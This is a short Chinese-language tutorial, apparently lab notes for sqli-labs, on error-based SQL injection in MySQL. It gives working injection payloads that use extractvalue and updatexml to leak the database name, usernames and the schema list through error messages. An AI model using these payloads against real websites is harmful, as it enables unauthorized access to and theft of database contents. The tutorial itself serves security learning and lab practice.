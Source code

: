 ### 报错注入
#### 原理

由于后台没有对数据库的报错信息做过滤，会输入到前台显示，那么我们可以利用制造报错函数（常用的如**extractvalue、updatexml**等函数来显示出报错的信息输出）

**extractvalue函数**

```sql
语法：ExtractValue(target, xpath)

target：包含XML数据的列或XML文档
xpath：XPath 表达式，指定要提取的数据路径。

eg:
#获取当前数据库
Dumb' and extractvalue(1,concat("~~",database(),"~~")) #

注意：当database()要换成sql查询语句时，使用括号
Dumb' and extractvalue(1,concat("~~",(select group_concat(username) 
from users),"~~")) #

#获取所有数据库 通过substr()函数控制输出
Dumb' and extractvalue(1,substr(concat("~~",(select 
group_concat(schema_name) 
from information_schema.schemata),"~~"),1,30)) #
```
**updatexml函数**

```sql
语法：updateXML(target, xpath, new_value)

target：要更新的 XML 数据列或 XML 文档。
xpath：指定要更新的 XML 元素的 XPath 表达式。
new_value：新的值，将替代匹配的 XML 元素的内容。

eg:
Dumb' and updateXML(1,concat("~~",database(),"~~"),3) #
```
